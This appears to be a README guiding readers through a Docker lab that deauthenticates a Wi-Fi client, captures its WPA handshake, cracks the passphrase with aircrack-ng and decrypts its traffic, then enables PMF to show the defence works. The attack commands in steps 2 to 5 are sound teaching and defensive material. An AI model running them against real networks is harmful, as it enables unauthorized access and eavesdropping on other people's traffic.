




# Replication guide

## Prerequisites
Make sure the hostapd.conf looks like this:



And the client.conf like this:



If you just pulled they are.

Start the initialization script:

```bash
chmod +x start.sh
./start.sh
```

Confirm all three containers are running:

```bash
docker ps
```

You should see `ap`, `client`, `attacker` and `defender`.

---

## Step 1 - Open shells in the containers

You need **two terminals** inside the attacker, **one terminal** inside the client and **one terminal** inside the defender.


---

## Step 2 - Run the attack and the detector

In the client terminal run:

```bash
ping 10.0.0.1
```

In the first attcker terminal run

```bash
airodump-ng -i wlan2
```

to find the macs of the ap and the client.

For convinience the macs are:

- ap: 02:00:00:00:00:00
- client: 02:00:00:00:01:00

After that run

```bash
mkdir -p /tmp/capture
cd /tmp/capture
airodump-ng -c 6 --bssid <ap mac> -w handshake wlan2
```

to start capturing handshakes.


In the defender run

```bash
cd volumes
python3 deauth_detector.py -i "wlan3"
```


In the other attacker terminal run the attack script

```bash
cd volumes
python3 attack.py -a "<ap mac>" -c "<client mac>" -i "wlan2" 
```
(Note: -i as wlan2 as default)

After a little bit you will see multiple warnings in the detector.




In the client the pings will start to fail




Look back at terminal running airodump. The top of the screen should now show:

```
CH  6 ][ Elapsed: 1 min ][ ... ][ WPA handshake: 02:00:00:00:00:00
```


That phrase appears the moment all four EAPOL messages of a complete handshake are in the capture file.

You can now stop all processes with **Ctrl+C**.


---


## Step 3 — Confirm the handshake was captured

Verify the capture is usable:

```bash
aircrack-ng /tmp/capture/handshake-01.cap
```

You should see:

```
   #  BSSID              ESSID      Encryption
   1  02:00:00:00:00:00  TestWiFi   WPA (1 handshake)
```


**"WPA (1 handshake)"** is what you want. Press Ctrl+C we'll crack it in the next step.

---


## Step 4 — Crack the PSK

```bash
aircrack-ng -w wordlist.txt \
            -b 02:00:00:00:00:00 \
            /tmp/capture/handshake-01.cap
```

> In a real engagement you'd point this at something like `rockyou.txt`. The mechanics are identical — only the runtime changes.


---

## Step 5 — Decrypt the captured traffic

```bash
airdecap-ng -e TestWiFi \
            -p supersecretpass \
            /tmp/capture/handshake-01.cap
```

`-e` is required because the SSID is used as salt in PSK derivation.

Expected:


The frames that are not decrypted are the ones sent before the handshake was captured

A new file appears next to the original: `handshake-01-dec.cap`.

Inspect plaintext traffic:

```bash
tcpdump -r /tmp/capture/handshake-01-dec.cap -nn "icmp or arp" | head -30
```

Every frame on the "secure" Wi-Fi is now readable.


## Cleanup between runs

```bash
docker exec attacker rm -f /tmp/capture/handshake-*
```

---

## Step 6 - Enable PMF on the Access Point

Edit `hostapd.conf` (or your specific hostapd configuration file) and modify it to include the PMF settings:


### Configuration Notes

- `ieee80211w=2` strictly requires PMF for all connections.
- `wpa_key_mgmt=WPA-PSK-SHA256` is the PMF-compatible Authentication and Key Management (AKM) suite. Plain WPA-PSK can coexist with `ieee80211w=1`, but for `=2`, the SHA-256 variant is required.
- `rsn_pairwise=CCMP` means TKIP is fundamentally incompatible with PMF.
- `ctrl_interface` and `ctrl_interface_group` are not related to security they are just to allow external commands

## Step 7 - Enable PMF on the Client

Edit `client.conf` to look like this:


Setting `ieee80211w=2` ensures the client will refuse to connect to any AP that does not offer Protected Management Frames.

## Step 8 - Restart the Lab

Apply the new configurations by restarting the Docker containers:

```bash
./start.sh
```

---


## Step 9 - Execute the Attack again

In the client ping the ap and on the attacker run the attack script. You will see that the pings don't fail.

---